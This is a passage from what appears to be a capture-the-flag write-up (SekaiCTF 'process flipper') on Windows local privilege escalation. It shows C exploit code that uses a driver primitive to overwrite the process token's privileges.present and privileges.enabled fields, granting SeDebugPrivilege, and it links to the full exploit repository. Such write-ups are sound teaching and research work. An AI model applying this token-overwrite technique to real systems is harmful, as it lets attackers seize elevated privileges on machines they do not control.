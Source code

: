 ```C
    return TRUE;
}

static char tmp[0x100000];
DWORD tmp1;

printf("[+] Overwriting privileges.enabled\n");
priv(file, token + 0x40);  // overwrite privileges.enabled
WriteFile(tmpfile, tmp, 0x100000, &tmp1, NULL);
 
printf("[+] Overwriting privileges.present\n");
priv(file, token + 0x40 - 0x8); // overwrite privileges.present
WriteFile(tmpfile, tmp, 0x100000, &tmp1, NULL);

```

### SeDebugPrivilege

The `SeDebugPrivilege` is enabled .Now, you can read the flag. You can get the driver file and code [here](https://github.com/nu1lptr0/LPE_Windows_Exploitation/tree/main/sekai_ctf_process_flipper).

![](/images/final_image.png)